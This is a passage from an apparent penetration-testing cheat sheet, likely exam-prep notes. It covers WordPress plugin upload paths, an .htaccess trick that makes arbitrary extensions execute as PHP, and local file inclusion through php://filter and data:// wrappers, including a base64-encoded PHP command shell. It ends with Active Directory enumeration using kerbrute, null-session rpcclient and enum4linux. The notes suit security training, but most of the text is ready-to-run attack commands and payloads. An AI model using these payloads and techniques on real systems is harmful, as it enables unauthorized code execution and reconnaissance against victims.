 - The plugin files will be accessible from the following link:
`http://$target/wp-content/plugins/$zipName/$phpFileNmae`

### when the web server won't execute a file type during uploads
1. `echo "AddType application/x-httpd-php .xxx" > .htaccess`
2. upload the .htaccess file
3. then upload the .xxx file which can be executed as php

### PHP Wrappers
Note that in order to exploit these vulnerabilities, the allow_url_include setting needs to be enabled for PHP, which is not the case for default installations. That said, it is included in the material, so it makes sense to be aware of it. 
Ex: exploiting a page called admin.php
-  `curl http://$IP/$directory/index.php?page=admin.php`
-  Note that if the `<body>` tag is not closed (with a `</body>` tag at the end), the page could be vulnerable. Let's try to exploit it with the **php://filter** tag. 
	1. `curl http://$IP/$directory/index.php?page=php://filter/**convert.base64-encode**/resource=admin.php`
		1. This should return the whole page which can then be decoded for further information. 
	2. `echo "$base64Text" | base64 -d`
- Now let's try with the **data://** warpper. 
	1. `curl "http://$IP/$directory/index.php?page=**data://text/plain**,<?php%20echo%20system('ls');?>"`
		1. This shows that we can execute embeeded data via LFI. 
	2. But because some of our data like "system" may be filtered, we can encode it with base64 and try again. 
	3. `echo -n '<?php echo system($_GET["cmd"]);?>' | base64`
		- PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
	4. `"http://\<host>/\<directory>/index.php?page=**data://text/plain;base64**,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`

## 88 Kerberos / AD
**1. ADD THE DNS NAME TO YOUR `/etc/hosts` FILE**
- `dc.domain.com` AND domain.com`

To enumerate accounts ON DC:
`kerbrute userenum --dc $ip -d CONTROLLER.local Users.txt`
- --dc can point to a domain 
- probably `kerbrute_linux_arm userenum -d $domain.com --dc $IP users.txt`

To check for users on 445 with RPC:
`rpcclient -U "" -N $IP`
	- `enumdomusers`
	- `querygroup 0x200`  
	- `querygroupmem 0x200`
	- `queryuser 0x1f4` 


### Other AD Enum
`enum4linux -u "" -p "" -a <DC IP> && enum4linux -u "guest" -p ""-a <DC IP>`
